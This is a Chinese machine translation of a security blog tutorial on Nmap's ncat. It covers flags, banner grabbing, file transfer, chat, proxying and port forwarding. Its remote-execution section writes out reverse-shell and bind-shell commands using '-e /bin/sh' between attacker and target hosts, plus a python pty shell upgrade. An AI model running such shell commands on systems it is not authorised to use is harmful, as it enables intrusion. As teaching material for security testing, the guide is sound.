


# 掌握 Ncat 的乐趣和利润

> 原文：<https://infosecwriteups.com/mastering-ncat-for-fun-and-profit-397e982b889c?source=collection_archive---------0----------------------->

实用 ncat——命令、用法和实际应用


照片由[Cookie Pom](https://unsplash.com/@cookiethepom?utm_source=medium&utm_medium=referral)在 [Unsplash](https://unsplash.com?utm_source=medium&utm_medium=referral) 拍摄

根据您对 Unix 操作系统的熟悉程度，您可能听说过内置的网络实用程序 netcat —也被称为“*TCP/IP 网络的瑞士军刀*”。

Netcat 用于在网络上建立连接，并能够通过 UDP 或 TCP 协议传输数据。已经有几十篇关于该工具及其各种应用的优秀文章。然而，这一篇旨在阐明由 [Nmap 项目](https://nmap.org/ncat/)ncat 开发的现代重新实现！

# netcat vs. ncat vs. nc

通常情况下，`netcat`、`ncat`和`nc`是同义的，就好像它们是同一个工具。虽然它们执行相似的操作，但还是有一些关键的区别:

## **网猫**

Netcat 是一个功能丰富的网络实用程序，由作者 Hobbit 于 1996 年创建。除了建立网络连接和传输数据，netcat 还具有广泛的功能。

这些年来，netcat 程序有过几次重写，比如那些由 [GNU](http://netcat.sourceforge.net/) 和 [OpenBSD](https://man.openbsd.org/nc.1) 编写的。每一个都旨在扩展核心功能和添加附加特性，即改进的隧道和/或 IPv6 支持。

## ncat

如前所述，ncat 是由 [Nmap 项目](https://nmap.org/ncat/)开发的 netcat 的重新实现。根据该工具的公共 [GitHub](https://github.com/nmap/nmap/tree/master/ncat) 库，ncat 的创建是为了取代 netcat 的分散且合理的无人维护的家族。

除了现代化的代码库和闪亮的新特性，ncat 继续接受积极的、持续的开发工作。

## **数控**

传统上，nc 只是对系统上安装的原始 netcat 二进制文件的引用。这是通过符号链接映射的，也称为符号链接。

然而，在本文的测试中，我发现这个符号链接参考可能会发生变化，或者被用户安装的软件包不知不觉地修改。例如，最新版本的 [Kali Linux](https://www.kali.org/) 实际上是通过`apt`将 ncat 安装在系统上时，将`nc`命令链接到后来的`ncat`二进制文件。

# 关键 CMD 参数

下面是一些命令行参数，可以帮助您提高 ncat 的使用:

```
-p               Specify port
-l               Listen for incoming connections
-k               keep open, allow multiple connections 
-n               Do not resolve host names via DNS            
-v               Verbose output
-c, --sh-exec    runs cmd by passing to a system shell
-e, --exec       runs cmd without shell interpretation
--ssl            Establish connection with SSL
--chat           Start ncat chat server
--allow <IP>     Only allow specified hosts to connect
--deny <IP>      Prevent specific hosts from connecting
--allowfile <file> Only allow hosts from file to connect
--denyfile <file>  Prevent hosts in file from connecting
```

# 网络连接和横幅抓取

下面的例子演示了 ncat 的最基本用法，连接到远程服务。只需在命令行参数中添加目标`IP address`和`port`来建立连接。

根据服务的配置，可能会返回一个横幅，提供有关服务的详细信息，如供应商或当前版本。这可能会在通过[exploit-db.com](https://exploit-db.com/)等资源进行漏洞识别的安全测试中被滥用。

```
» $ ncat 192.168.1.7 21
220 (vsFTPd 2.3.4)
```

# 制作 HTTP 请求

其次，ncat 可用于向 web 服务器发送定制的 HTTP(S)请求。这可用于故障排除、验证连通性，或在安全测试期间修改请求以查找异常响应。

```
» $ ncat --ssl google.com 443
GET / HTTP/1.1
Host: google.com HTTP/1.1 301 Moved Permanently
Location: [https://www.google.com/](https://www.google.com/)
Content-Type: text/html; charset=UTF-8
Cache-Control: public, max-age=2592000
Server: gws
Content-Length: 220
```

# 传输文件

在众多酷而有用的特性中，ncat 提供了在两个远程系统之间传输文件的能力。为此，在您的服务器或发送主机上设置一个 ncat 监听器，并读入目标文件的内容作为标准输入。

下面显示的`--send-only`参数表示在将所有数据传输到客户端后应该关闭连接。

```
(Server) » $ echo 'My awesome file!' > shared_file.txt
(Server) » $ ncat --send-only-lp 80 < shared_file.txt
```

在客户端或接收主机上，只需在连接过程中将 ncat 输出重定向到一个文件。一旦传输完成，`--recv-only`参数将关闭连接。

```
(Client) » $ ncat --recv-only 127.0.0.1 80 > shared_file.txt
(Client) » $ cat shared_file.txt
My awesome file!
```

*害怕有人通过不安全的渠道获取您的数据？*

与演示的许多命令一样，ncat 通过向客户机和服务器添加`--ssl`参数来支持传输过程中的 SSL 加密。

# 网络服务器

下面演示了 ncat 被用作 web 服务器来托管本地`index.html`。注意命令行参数中的`-k`开关——这表示服务器应该保持监听并接受多个客户端连接。

```
» $ ncat -lk -p 80 -c "echo -e 'HTTP/1.1 200 OK\r\n';cat index.html"
```



# SSL 加密群聊

Ncat 的聊天功能允许多个用户通过网络进行协作。为此，设置一个标准的 SSL 监听器并添加`--chat`参数。该系统将被视为主持对话的聊天服务器。

```
(Server) » $ ncat --ssl -lp 4443 --chat
```

后续客户端可以连接到主机，并使用主机名、端口和`--ssl`参数与其他用户交互:

```
(Client 1) » $ ncat 10.0.0.1 4443 --ssl
<announce> 10.0.0.2 is connected as <user5>.
<announce> 10.0.0.3 is connected as <user6>.
Hi Chat!
```

如图所示，ncat 支持多用户连接:

```
(Client 2) » $ ncat 10.0.0.1 4443 --ssl
<announce> 10.0.0.3 is connected as <user6>.
<user5> Hi Chat!
```

# 远程命令执行

Ncat 使得在建立连接后启动远程命令变得容易。这可以通过在命令后添加`-e`或`—-exec`参数来实现。

ncat 的许多官方文档都用例子展示了这种功能，例如:`ncat -l 23 -e "/bin/echo Hello”`。但是，这可以适应目标系统上的完整远程外壳。

## 反向外壳

用 ncat 演示的第一种壳被称为**反向壳**。这需要攻击者设置一个标准的监听器并等待传入的连接。

```
(Hacker) » $ ncat -lp 80
```

客户端或目标然后连接回攻击者，同时转发一个`/bin/sh` shell。这将授予监听主机执行完整命令的权限。
***注意*** :从 Windows 目标尝试时需要`-e cmd.exe`。

```
(Target) » $ ncat 10.0.0.1 80 -e /bin/sh
```

在传入网络流量受到限制的情况下，或者使用绑定外壳公开监听端口风险太大的情况下，例如在外部网络上，反向外壳非常有用。

## 绑定外壳

如前所述，使用 ncat 获得远程命令执行的第二种方法是通过**绑定外壳**。这并不要求攻击者配置 ncat 监听器。相反，这一职责落在目标上，即配置一个侦听器并提供对连接客户端的访问。

如下所示，目标系统使用`-e`参数创建一个标准的 ncat 监听器来转发`/bin/sh` shell。

```
(Target) » $ ncat -lp 80 -e /bin/sh
```

然后，攻击者连接到目标，并被授予完全远程执行命令的权限。

```
(Hacker) » $ ncat 127.0.0.1 80
```

在攻击者直接连接到目标的情况下，bind shell 非常有用。但是，在执行此方法时要小心，因为它会使主机易受攻击，并允许访问任何连接客户端的**。**

## 升级 ncat shell (TTY)

用 ncat 反转和绑定炮弹是在目标上获得第一个立足点的简单方法。但是，您可能会发现 shell 本身有局限性。缺乏作业控制意味着一次意外的“Ctrl+C”，你将需要重新开始。更不用说没有自动完成和有限的命令支持。

为了帮助解决这些问题，基于可用的服务，可以执行特定的[命令](https://netsec.ws/?p=337)，以生成完全交互式的 TTY 外壳。这将提供额外的功能和更多我们在 Unix 终端中习惯的舒适特性。

`python3 -c ‘import pty; pty.spawn(“/bin/bash”)’`

前面的命令只是我们如何从`/bin/sh`升级到`/bin/bash`并使用系统自己的`python3`解释器和`pty`库生成 TTY 外壳的一个例子。



# Ncat 通过代理

Ncat 可以很容易地通过一个代理来运行，方法是添加`--proxy`参数，后跟`<proxy-host>:<proxy-port>`。该方法支持`http`和`socks`选项，以及使用`--proxy-auth`参数的认证。

```
» $ ssh -N -D 9000 root@192.168.1.1
root@192.168.1.1’s password:
```

以下示例演示了在通过之前创建的`socks4`代理路由流量之后，SSH 服务在`192.168.1.25`的横幅抓取:

```
» $ ncat --proxy localhost:9000 --proxy-type socks4 192.168.1.25 22
SSH-2.0-OpenSSH_4.7p1 Debian-8ubuntu1
```

# 服务端口转发

最后一个实际例子是使用 ncat 来转发目标服务的端口。当试图访问由于网络限制而不可用的服务时，可以使用这种技术。

下面通过让端口`222`上的本地主机可以访问`192.168.1.12:22`上的 SSH 服务来演示使用 ncat 的端口转发:

```
» $ ncat -klvp 222 -c "ncat -v 192.168.1.12 22"
Ncat: Version 7.91 ( [https://nmap.org/ncat](https://nmap.org/ncat) )
Ncat: Listening on :::222
Ncat: Listening on 0.0.0.0:222
```

现在，为了连接远程服务，启动一个到转发位置的新 SSH 连接，如下所示:

```
» $ssh root@127.0.0.1 -p 222
root@127.0.0.1's password:
root@kali:~$ 
```

感谢阅读！在 [m8sec.dev](https://m8sec.dev) 了解更多关于我的信息，并关注更多安全内容。

[](https://nmap.org/ncat/) [## 21 世纪的 Ncat - Netcat

### Ncat 是一个功能丰富的网络实用程序，可以从命令行通过网络读写数据。Ncat 是…

nmap.org](https://nmap.org/ncat/) [](https://github.com/nmap/nmap/tree/master/ncat) [## nmap/nmap

### 网络映射器。SVN 官方知识库的 Github 镜像。- nmap/nmap

github.com](https://github.com/nmap/nmap/tree/master/ncat) 

*免责声明:所有内容仅用于教育目的。作者不对信息的使用负责。不要对你不拥有或没有明确许可的系统进行测试。*